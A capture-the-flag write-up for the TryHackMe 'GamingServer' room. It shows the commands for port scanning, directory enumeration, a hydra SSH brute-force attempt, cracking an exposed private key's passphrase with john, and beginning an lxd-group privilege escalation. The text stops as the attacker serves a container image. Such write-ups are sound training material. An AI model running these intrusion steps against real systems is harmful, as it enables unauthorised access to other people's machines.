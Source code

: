 # THM: GamingServer

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/gaming_server/gaming_server.jpeg" alt="GamingServer" width="90"/> |
| Room | GamingServer |
| URL | [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/gamingserver) |
| Difficulty | Easy |

## Concepts/Tools Used

- [gobuster](../../tools/gobuster.md)
- [hydra](../../tools/hydra.md)
- wget
- [john](../../tools/john.md)
- lxd

## Room Description

An Easy Boot2Root box for beginners.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:
```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-25 14:28 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating ARP Ping Scan at 14:29
Scanning target.thm (10.10.29.122) [1 port]
Completed ARP Ping Scan at 14:29, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:29
Scanning target.thm (10.10.29.122) [65535 ports]
Discovered open port 80/tcp on 10.10.29.122
Discovered open port 22/tcp on 10.10.29.122
Completed SYN Stealth Scan at 14:29, 1.28s elapsed (65535 total ports)
Initiating Service scan at 14:29
Scanning 2 services on target.thm (10.10.29.122)
Completed Service scan at 14:29, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.29.122.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.27s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.01s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Nmap scan report for target.thm (10.10.29.122)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
MAC Address: 02:18:00:64:DD:0F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.35 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

SSH allows password login attempts. I start to check the site on port 80.

Inspecting http://target.thm/ has an interesting comment in html:
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

It looks like I found a username. I check the robots.txt file and it shows the following:

```bash
user-agent: *
Allow: /
/uploads/
```

The uploads directory has a dictionary file dict.lst, I download it using the following command:

```bash
$ wget http://target.thm/dict.lst
```

Since I have a username and a dictionary, I try both on the ssh service for this machine using hydra. Here is the command I ran:

```bash
$ hydra -l john -P dict.lst target.thm ssh
```

That yield nothing.

I ran gobuster to find more directories on the server. Here is the command I ran:

```bash
$ gobuster dir -u http://target.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://target.thm/uploads/]
/secret               (Status: 301) [Size: 309]
```

The /secret directory has a single file called secretKey. It is a private rsa key. I download it using the following command:

```bash
$ wget http://target.thm/secret/secretKey
```

Since this is a private rsa key I change the permission to private read/write so I won't get a warning each time I use this. Here is the command I used to fix the permissions:

```bash
$ chmod 600 secretKey
```

I try to ssh into the machine with this key but it wants a passphrase for the key. Here is what I used to ssh with the key:

```bash
$ ssh john@target.thm -i secretKey
```

## Getting a Foothold

Since I don't have a passphrase for the ssh key, I'll need to crack it. I download ssh2john.py with the following command:

```bash
$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

This programe will turn the ssh key into a format that john can understand. I run the following and save the hash as john_ssh:

```bash
$ python3 ssh2john.py secretKey > john_ssh
```

Now I have john crack the passphrase with the following command:

```bash
$ john --wordlist=dict.lst john_ssh
```

This gives me passphrase to crack the ssh key. I run the following command again to log into the server and type in the passphrase when asked:

```bash
$ ssh john@target.thm -i secretKey
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). Running groups did yield some interesting results:

```bash
$ groups
john adm cdrom sudo dip plugdev lxd
```

The user john is a member of the sudo group and if I had his password I could juse run sudo su and this would be all over. I don't know the password so I examine the other groups. The lxd group is interesting. I wasn't familiar with it but lxd is very similar to docker.

I found out that I can run a lxc (which is a container) that will have escalated privileges and allow me to mount the hard drive of my machine. In other words, I can be the root user and mount my drive so that I have a root user on my drive.

First things first, I need to grab a lxc container on my attack machine so that I can download it on my target machine. I run the following commands to download the lxc container and start a python http server so that my target machine can download it. Here are the commands I ran on my attack machine:

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ python3 -m http.server
```
